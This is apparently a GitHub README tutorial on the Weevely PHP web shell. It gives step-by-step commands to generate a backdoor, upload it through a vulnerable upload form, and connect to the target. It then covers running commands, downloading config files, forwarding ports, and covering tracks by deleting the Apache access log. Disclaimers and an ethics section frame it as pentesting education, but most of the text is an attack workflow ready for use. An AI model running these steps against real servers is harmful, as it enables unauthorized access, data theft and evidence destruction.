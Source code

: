 ![WeevelyImage](https://github.com/incogneto1337/WeevelyTutorial/blob/main/maxresdefault.jpg)

# WeevelyTutorial

---

# Mastering Weevely: A Stealthy Guide to Web Shell Exploitation

Welcome, fellow hackers and security enthusiasts! Today, we're diving deep into the shadows of web exploitation with Weevely, the stealth PHP web shell that’s like the Swiss Army knife for web-based post-exploitation. Whether you’re a seasoned pentester or just starting, this guide will arm you with the knowledge to wield Weevely effectively and ethically. 

**Disclaimer:** This article is for educational purposes only. Always obtain explicit permission before testing any systems. Unauthorized access is illegal and unethical.

## What is Weevely?

Weevely is a versatile and stealthy PHP web shell that lets you control compromised web servers. Its compact and flexible nature makes it a favorite tool for penetration testers and black hat hackers alike. By embedding a backdoor in a PHP file, you can perform a variety of tasks remotely. Think of it as your secret agent on the inside.

## Getting Started with Weevely

### **1. Setting Up Weevely**

Good news—Weevely comes pre-installed on Kali Linux! No need to clone repositories or manually install it. Just fire up your Kali VM and get ready to work.

### **2. Crafting the Perfect Backdoor**

To create a backdoor, run the following command in your terminal:

```bash
weevely generate <password> /path/to/output/weevely.php
```

Replace `<password>` with a strong, unique password and `/path/to/output/weevely.php` with your desired file path. This command creates a PHP file that will serve as your gateway into the target server.

### **3. Uploading the Backdoor**

#### **Real-World Scenario: Exploiting File Upload Vulnerabilities**

Imagine you've found a vulnerable file upload feature on a target site. This could be an admin panel or a public file upload form that doesn’t sanitize file names. Here’s how you’d upload the Weevely backdoor:

1. **Manual Upload:**

   Navigate to the upload form on the target site and upload `weevely.php`. If you’re lucky, it’ll be directly accessible from the web.

2. **Automated Upload:**

   Use command injection or other vulnerabilities to upload the file. For example:

   ```bash
   curl -F "file=@weevely.php" http://target.com/upload.php
   ```

### **4. Connecting to Your Backdoor**

Once the backdoor is live on the server, connect to it using Weevely:

```bash
weevely <password> http://target.com/path/to/weevely.php
```

Replace `<password>` and the URL with the appropriate values. This command opens an interactive shell to your compromised server.

### **5. Unleashing Weevely's Power**

Now that you’re connected, let’s explore what you can do:

#### **Real-World Scenario: Post-Exploitation and Data Harvesting**

1. **Command Execution:**

   Run commands on the target server to gather information or manipulate files:

   ```bash
   exec whoami  # Find out which user you’re running as
   exec ls -la  # List files in the current directory
   ```

2. **File Management:**

   Download sensitive files or upload new ones:

   ```bash
   download /var/www/html/config.php /tmp/config.php
   upload /tmp/new_script.php /var/www/html/new_script.php
   ```

3. **Port Forwarding:**

   Access internal services that are otherwise hidden:

   ```bash
   portfwd 8080 127.0.0.1 80  # Forward port 8080 on your local machine to port 80 on the target server
   ```

4. **Browser Interface:**

   Use the built-in browser to interact with web-based applications:

   ```bash
   browser
   ```

### **6. Cleaning Up and Covering Tracks**

To avoid detection:

1. **Remove Backdoors:**

   Delete your backdoor file from the server:

   ```bash
   delete /path/to/weevely.php
   ```

2. **Clear Logs:**

   If your engagement allows, clear logs that might show your activities:

   ```bash
   exec rm -rf /var/log/apache2/access.log
   ```

### **7. Ethical Considerations**

Remember, with great power comes great responsibility. Always:

- **Obtain Permission:** Ensure you have explicit authorization before testing systems.
- **Follow the Law:** Stay within legal boundaries and ethical guidelines.
- **Minimize Impact:** Avoid causing unnecessary disruption to systems.

## Conclusion

Weevely is a potent tool for web shell exploitation, offering a range of capabilities from simple command execution to sophisticated data harvesting. By understanding and responsibly using tools like Weevely, you can enhance your penetration testing skills and better secure web applications against real-world threats.

Happy hacking—ethically, of course!

---
